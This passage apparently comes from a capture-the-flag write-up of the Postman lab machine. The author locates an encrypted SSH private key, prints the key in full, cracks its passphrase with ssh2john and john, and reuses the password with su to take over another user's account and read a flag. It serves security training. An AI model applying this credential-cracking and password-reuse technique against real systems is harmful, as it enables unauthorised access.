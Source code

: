When searching for the files mentioned in the history we found that the
`id_rsa.bak` key exist in `/opt/` and is an encrypted RSA private key.

    :::text
    redis@Postman:~$ find / -name 'id_rsa.bak' 2> /dev/null^C
    /opt/id_rsa.bak
    redis@Postman:~$ cat /opt/id_rsa.bak
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

    JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
    cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
    7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
    cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
    1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
    EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
    UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
    Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
    t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
    5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
    P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
    jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
    SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
    l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
    0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
    S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
    hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
    Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
    XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
    b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
    WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
    KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
    npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
    VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
    X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
    -----END RSA PRIVATE KEY-----

We copy the key on our computer and use `ssh2john` to extract the hash from the
key and run a john on it: the password is `computer2008`.

    :::text
    python2 /usr/bin/ssh2john redis_rsa > redis_rsa.hash
    john redis_rsa.hash -w=rockyou.txt
    computer2008

The key does not allow us to connect using the SSH key (the ssh connection
closed immediately). I also tried this creds for a locally elevation with `su`
and it works… I do not know why the user will have the same password as it
sshkey passphrase but it works and we get the user flag.

    :::text
    redis@Postman:~$ su Matt
    Password: 
    Matt@Postman:/var/lib/redis$ cd
    Matt@Postman:~$ ls
    user.txt
    Matt@Postman:~$ cat user.txt 
    517ad0<redacted>
